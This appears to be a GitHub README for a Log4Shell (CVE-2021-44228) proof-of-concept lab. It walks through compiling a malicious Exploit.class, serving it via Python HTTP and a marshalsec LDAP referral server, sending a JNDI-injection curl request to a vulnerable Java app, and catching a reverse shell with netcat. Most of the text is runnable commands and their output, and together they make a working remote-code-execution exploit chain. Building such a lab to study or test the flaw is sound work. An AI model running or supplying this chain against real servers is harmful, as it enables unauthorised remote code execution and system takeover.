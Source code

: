 # Log4Shell POC (CVE-2021-44228)

This is a fork from [marcourbano's](https://github.com/marcourbano/CVE-2021-44228/) repo but with a clearer explanation on setting it up and using an ubuntu server rather than docker. It is also setup to allow a reverse shell from the labs target server.

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:
Kali Linux with 
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. The Java **Exploit.class** (and the corresponding Exploit.java file) that will be loaded by the Vulnerable application.
3. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Ubuntu Server with:
1. A Vulnerable Java Application (found in the log4j-lab folder)

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.

Prerequisites:
- Java
- Python
- Kali Linux
- Ubuntu Server

# Kali Linux
## Prepping Java File
Edit the .java file to enter your local Kali machines IP
```
cd attacker/exploit && sudo nano Exploit.java
```
Once you have updated your java file to point to your Kali machine's IP, You need to compile it
```
sudo javac -source 1.8 -target 1.8 Exploit.java
```

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```
python3 -m http.server PORT
```
### `LDAP Server`
In a seperate Terminal Tab/Window:
**1.** Move to `ldap_server` folder and build the `pom.xml`


```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```
## Listen for callback
In a seperate Terminal Tab/Window:
**1.** Use the Listen back command on port 4444 to wait for a reverse shell
```
nc -lvnp 4444
```
*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




# Ubuntu Server
## Running the `Vulnerable application`

Boot up a fresh Ubuntu Server VM and run the below commands to get started with installing dependencies

```
sudo apt update && sudo apt upgrade -y
```
```
sudo apt install openjdk-11-jdk -y
```
Once the server is setup, clone the git repo to the Ubuntu server and cd into the log4j-lab folder.
```
cd TargetServer/log4j-lab
```
You will need to download the log4j dependanies for the vulnerable java application to run
```
mkdir log4j && cd log4j

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar
wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar
```

To run the Application just run 
```
./run_vulnerable_app.sh
```

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.
In a seperate Terminal Tab run the below,
```
curl -H 'User-Agent: ${jndi:ldap://LDAP_SERVER_IP:LDAP_PORT/exploit}' http://TARGETSERVERIP:8080/
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2025-01-12 18:48:14  [HTTP-DISPATCHER] INFO VulnerableApp - User-Agent: ${jndi:ldap://10.0.2.15:1389/exploit}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, In the Terminal window you had the netcat listening, you should now have reverse shell access

![](./POC.png)

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@AdamJN](https://github.com/AdamJNew)

[@CrashOverflow](https://github.com/marcourbano) - Forked from his repo
